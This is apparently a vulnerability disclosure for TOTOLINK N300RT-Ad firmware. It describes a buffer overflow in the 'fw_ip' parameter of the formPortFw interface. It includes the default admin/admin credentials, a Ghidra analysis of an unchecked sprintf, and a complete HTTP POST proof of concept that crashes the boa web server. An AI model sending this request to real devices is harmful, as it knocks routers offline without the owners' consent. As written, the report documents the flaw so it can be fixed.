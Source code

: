 ## **Description**

A buffer overflow vulnerability was discovered in the TOTOLINK firmware N300RT-Ad-V4.0.0-B20211109.1137. The vulnerability arises from the improper input validation of the `'fw_ip'` parameter in the 'formPortFw' interface of the file boa.

## ​**Affected Product**

- ​**Brand**: TOTOLINK
- ​**Product**: N300RT-Ad
- ​**Version**: V4.0.0-B20211109.1137

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d totolink ../FIRMWARE/TOTOLINK-N300RT-Ad-V4.0.0-B20211109.1137.web
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `admin`

The result of the simulation is as follows: 
![sim_res](work_record/TOTOLINK/N300RT_ad/8/img/sim_res.png)

## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'FUN_00415ae0' is below:
![vulner_code.png](work_record/TOTOLINK/N300RT_ad/8/img/vulner_code.png)
- ​**web_get_var** retrieves POST parameters.
- **sprintf()** is used without length checks, leading to a ​buffer overflow.​

## **Proof of Concept (PoC)**
### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test. To trigger the vulner, we set the parameter 'addPortFw' to not None.
Example package
```http
POST /boafrm/formPortFw HTTP/1.1  
Host: 192.168.0.1  
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 661  
Origin: http://192.168.0.1
Connection: close  
Referer: http://192.168.0.1/wlwps.htm
Cookie: session=1335027320  
Upgrade-Insecure-Requests: 1  
  
addPortFw=1&fw_ip=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&ip_subnet=1
```

After the request the `boa` process will crash.
![result](work_record/TOTOLINK/N300RT_ad/8/img/result.png)